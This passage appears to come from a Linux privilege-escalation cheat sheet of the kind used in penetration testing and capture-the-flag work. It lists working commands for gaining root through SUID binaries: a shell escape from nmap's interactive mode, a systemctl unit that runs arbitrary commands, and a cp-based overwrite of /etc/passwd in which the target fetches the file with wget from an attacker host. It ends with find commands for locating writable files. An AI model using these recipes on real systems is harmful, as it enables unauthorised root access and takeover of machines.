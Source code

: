 Don't forget to take a look on SUID bit set ``nmap`` binary:

```
# nmap --interactive
# !sh
```

``systemctl`` SUID:

```
# TF=$(mktemp).service
# echo '[Service]
# Type=oneshot
# ExecStart=/bin/sh -c "id > /tmp/output"
# [Install]
# WantedBy=multi-user.target' > $TF
# systemctl link $TF
# systemctl enable --now $TF
```

``cp`` SUID:

```
# openssl passwd -1 -salt <NEW_USER> <PASS>             <- Attack Box
# cp /etc/passwd /outputfile                            <- Attack Box
# python -m SimpleHTTPServer <LPORT>                    <- Attack Box
# cd /tmp && wget http://<LHOST>:<LPORT>/passwd         <- Target Box
# cp passwd /etc/passwd                                 <- Target Box
# su <NEW_USER>                                         <- Target Box
```
##

**Bash tricks:**

Find files containing specific string:

```
# find / 2>>/dev/null | grep -i "<STRING>"
```

Find all files belonging to a specific user:

```
# find / -user <USER> -type f 2>>/dev/null
```

Find writable files in ``root`` directories:

```
# find / -writable -type f 2>/dev/null
# find /etc -maxdepth 1 -writable -type f
```

Find all readable files:

```
# find /etc -maxdepth 1 -readable -type f
```

Always check ``history`` and ``.bash_history``:
